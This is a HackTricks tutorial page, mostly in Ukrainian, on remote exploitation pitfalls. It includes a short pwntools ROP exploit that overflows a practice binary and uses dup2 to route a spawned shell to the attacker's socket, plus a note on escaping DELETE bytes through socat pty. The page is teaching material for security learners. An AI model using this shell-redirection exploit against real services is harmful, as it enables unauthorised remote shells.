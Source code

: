 # Загальні проблеми експлуатації

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

## FDs у віддаленій експлуатації

Коли ви надсилаєте експлойт на віддалений сервер, який викликає **`system('/bin/sh')`**, наприклад, це буде виконано в процесі сервера, і `/bin/sh` очікуватиме введення з stdin (FD: `0`) і виведе результат у stdout та stderr (FDs `1` та `2`). Отже, атакуючий не зможе взаємодіяти з оболонкою.

Спосіб вирішення цієї проблеми полягає в тому, щоб припустити, що коли сервер запустився, він створив **FD номер `3`** (для прослуховування), а потім ваше з'єднання буде в **FD номер `4`**. Тому можливо використовувати системний виклик **`dup2`**, щоб дублювати stdin (FD 0) та stdout (FD 1) у FD 4 (той, що належить з'єднанню атакуючого), щоб це зробило можливим зв'язок з оболонкою після її виконання.

[**Приклад експлойту звідси**](https://ir0nstone.gitbook.io/notes/types/stack/exploiting-over-sockets/exploit):
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

rop = ROP(elf)
rop.raw('A' * 40)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.win()

p.sendline(rop.chain())
p.recvuntil('Thanks!\x00')
p.interactive()
```
## Socat & pty

Зверніть увагу, що socat вже передає **`stdin`** та **`stdout`** до сокета. Однак, режим `pty` **включає символи DELETE**. Тому, якщо ви надішлете `\x7f` ( `DELETE` -) це **видалить попередній символ** вашого експлойту.

Щоб обійти це, **символ втечі `\x16` повинен бути попереджений перед будь-яким `\x7f`, що надсилається.**

**Тут ви можете** [**знайти приклад цієї поведінки**](https://ir0nstone.gitbook.io/hackthebox/challenges/pwn/dream-diary-chapter-1/unlink-exploit)**.**

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
